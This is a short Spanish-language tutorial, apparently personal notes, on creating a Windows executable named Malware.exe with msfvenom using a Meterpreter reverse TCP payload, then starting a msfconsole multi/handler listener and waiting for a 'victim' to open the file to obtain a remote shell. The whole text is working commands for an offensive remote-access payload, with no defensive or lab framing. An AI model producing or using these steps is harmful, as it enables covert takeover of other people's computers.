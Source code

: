 Para crear un malware con Metasploit vamos a ultilizar *msfvenom*, con el payload de *windows/meterpreter/reverse_tcp*, y lo guardaremos con el nombre de Malware.exe

```bash 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.17 LPORT=443 -f exe -o Malware.exe
```

![[Pasted image 20240114201555.png]]

Ahora vamos a ponernos por escucha con msfconsole, antes de enviarle este malware a nuestra victima

```bash 
msfconsole
use /multi/handler
show options
set LHOST IP
set LPORT PORT
set PAYLOAD windows/meterpreter/reverse_tcp
run
```

![[Pasted image 20240114201916.png]]

Y listo ya solo falta que nuestra victima abra el archivo, para conseguir nuestra shell.